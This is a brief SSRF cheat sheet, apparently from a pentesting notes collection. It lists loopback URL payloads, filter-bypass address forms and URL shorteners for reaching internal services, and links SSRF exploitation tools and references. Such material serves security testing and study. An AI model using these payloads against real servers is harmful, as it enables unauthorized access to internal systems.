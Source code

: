 # 🏂 SSRF

## SSRF Cheatsheet

### Using localhost

```
http://localhost:80
http://localhost:443
http://localhost:22
```

### Using 127.0.0.1

```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

### Using 0.0.0.0

```
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

### Filter Bypass

```
https://127.0.0.1/
https://localhost/
http://127.1/
```

### Bypass Localhost with CIDR

```
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Bypass using URL Shortners

```
https://free-url-shortener.rb.gy/

https://shorter.me/
```



***

## Tools

* [swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap) - Automatic SSRF fuzzer and exploitation tool
* [tarunkant/Gopherus](https://github.com/tarunkant/Gopherus) - Generates gopher link for exploiting SSRF and gaining RCE in various servers
* [In3tinct/See-SURF](https://github.com/In3tinct/See-SURF) - Python based scanner to find potential SSRF parameters
* [teknogeek/SSRF Sheriff](https://github.com/teknogeek/ssrf-sheriff) - Simple SSRF-testing sheriff written in Go
* [assetnote/surf](https://github.com/assetnote/surf) - Returns a list of viable SSRF candidates
* [dwisiswant0/ipfuscator](https://github.com/dwisiswant0/ipfuscator) - A blazing-fast, thread-safe, straightforward and zero memory allocations tool to swiftly generate alternative IP(v4) address representations in Go.



***

## REFERENCES

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#tools](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#tools)
* [https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
* [https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf)
* [https://shorter.me/](https://shorter.me/)
* [https://free-url-shortener.rb.gy/](https://free-url-shortener.rb.gy/)
